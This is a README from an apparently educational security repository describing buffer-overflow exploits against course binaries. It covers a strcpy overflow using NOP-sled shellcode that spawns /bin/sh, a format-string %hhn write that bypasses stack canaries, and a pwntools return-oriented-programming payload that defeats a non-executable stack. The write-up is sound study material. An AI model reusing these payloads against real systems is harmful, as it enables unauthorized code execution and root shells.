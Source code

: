 # Control Hijacking Attack
In this repository, I implemented some buffer overflow controlling hijacking attacks which all are described down below. You can find Executable Linkable Formats(ELF) of these
programs named "prog_vuln#" and corresponding inputs for each of them named "expoit#.sh" which were designed to overflow the buffers of program and rewrite some specific addresses
of the memory to change control flow of the program which will result in getting shell with sudo privileged.
## prog_vuln1
To perform this attack I used vulnerability of <b>strcpy()</b> function which does not check the length of strings before copy. As a result it will be possible to perform <b>buffer overflow</b> write some specific 
addresses in the stack and change the pointer to the start of shell code. You can see related commands in the following.
```
$(python -c 'print("\x90"*63 +
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x0
8\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "w"
*500 + "\x90\xf0\xff\xbf")')
```
## prog_vuln3
In this part there are some <b>canaries</b> (stack guard) in the address space of the program. So it isn't possible to overflow the program because all return addresses will be protected by these structures. To perform the attack I used <b>format stringing</b>. In this approach we exploit vulnerability of <b>printf()</b> function.   
We know that every time we use "%n"
in printf(), this function will write number of the bytes before this symbol at the top of stack. But It's not possible to enter these huge number of inputs to printf(), So I'll use "%hhn" that only writes the number of inputs in one byte of address which placed top of the stack. so we should sort all bytes of addresses which we want to write on and place the desired addressed in reverse order at the top of stack. you can see the designed input down below.
```
$(python -c
'print("\xb8\xfb\xff\xbf\xb7\xfb\xff\xbf\xb6\xfb\xff\xbf\xb5\xfb\xff\xbf\x9d\xfb\xff\xbf\xa4\xfb\xff\x
bf\xa0\xfb\xff\xbf\x9c\xfb\xff\xbf\xa1\xfb\xff\xbf\xa5\xfb\xff\xbf" + 160 * "w" + "%n%hhn%hhn" +
104 * "w" + "%hhn" + 11 * "w" + "%hhn" + 18 * "w" + "%hhn" + 35 * "w" + "%hhn" + 8 * "w" + "%hhn"
+ 64 * "w" +"%hhn" + 11 * "w" + "%hhn" + "%hhn" + 9 * "w")')
```
## prog_vuln4
In this part I used vulnerabilities of <b>scanf()</b> function which doesn't check whether input string match the space dedicated for it or not.  
In this program stack guards were deactivated but there is <b>NON-Executable Stack</b> protection. Since there is no canaries in the address space, we can change the return address of functions by causing overflow in the scanf() input. But unlike the prog_vuln1 because of NON-Executable Stack protection it's not possible to place the shell code in the scanf() input.  
To overcome this type of protection, I used <b>Return-oriented programming</b>. In this type of exploit we should find some suitable gadgets in the assembly code of the program and sort them to execute a shell code. In the below figure you can see arrangment of stack after we rewrite the return address of main with buffer overflow.  
<p align="center">
<img src="https://github.com/amir-sabzi/Network_Systems_Security/blob/master/Control_hijacking/stack.png" alt="drawing" width="500" align="center"/>
</p>
To perform discribed actions we should run a simple python code to write input in hex format in a file and then run the code with the input has been read from file. you can see this simple python script down below.  
```
from pwn import *
payload = 16 * "a" + p64(0x7fffffffe468)+ p64(0x400683) + p64(0x601048) + p64(0x00000000004005e8)
f= open("in.txt","w+")
f.write(payload)
f.close()
```
